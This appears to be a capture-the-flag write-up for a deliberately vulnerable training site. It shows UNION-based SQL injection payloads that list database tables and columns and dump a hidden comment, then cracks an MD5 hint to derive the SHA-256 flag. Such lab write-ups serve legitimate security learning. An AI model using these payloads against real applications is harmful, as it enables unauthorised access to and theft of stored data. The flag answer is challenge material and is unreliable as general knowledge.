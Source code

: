 # flag 3 | SQL injection


In this exploit, we will do an sql injection in the `Image number` search bar of 

If we enter a value like 1, 2, 3 in the searchbar, it will give us some informations
```txt
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```

We can do
```sql
1 UNION select table_name, column_name FROM information_Schema.columns 
```

We will see all the possible table and column from this table, we can see that there is one called list_images and there column named 
```md
    id
    url
    title
    comment
```

We can try to show all the url and comment

```sql
1 UNION select url, comment FROM list_images
```

```sql
ID: 1  UNION select url, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

So we have to decrypt `1928e8083cf461a51303633093573c46` with md5. We'll get : `albatroz`

we have to encrypt it on sha256 : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`